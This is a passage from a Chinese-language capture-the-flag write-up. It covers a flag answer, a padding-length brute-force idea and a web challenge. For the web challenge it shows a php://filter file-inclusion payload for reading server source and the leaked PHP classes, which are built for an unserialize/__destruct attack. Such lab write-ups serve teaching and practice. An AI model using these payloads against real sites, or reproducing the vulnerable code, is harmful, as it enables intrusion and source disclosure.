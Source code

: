 ### 0x04 justsoso

各种计算器+现实找人+百度解的.

`flag{01924dd7-1e14-48d0-9d80fa6bed9c7a00}0`

### 0x05 warmup

总感觉这种题做过好几次了,和去年的DDCTF里的一题基本一样.

可以控制填充字符串的长度,直接一位一位爆破出来.

(脚本稍后附上)

## WEB

### 0x06 JustSoso

伪协议读源码,根据Hint先读`hint.php`的

`/?file=php://filter/read=convert.base64-encode/resource=hint.php`

```php
<?php
    class Handle{
    private $handle;
    public function __wakeup(){
        foreach(get_object_vars($this) as $k => $v) {
            $this->$k = null;
        }
        echo "Waking up\n";
    }
    public function __construct($handle) {
        $this->handle = $handle;
    }
    public function __destruct(){
        $this->handle->getFlag();
    }
}

class Flag{
    public $file;
    public $token;
    public $token_flag;

    function __construct($file){
        $this->file = $file;
        $this->token_flag = $this->token = md5(rand(1,10000));
    }

    public function getFlag(){
        $this->token_flag = md5(rand(1,10000));
        if($this->token === $this->token_flag)
        {
            if(isset($this->file)){
                echo @highlight_file($this->file,true);
            }
        }
    }
}
?>
```
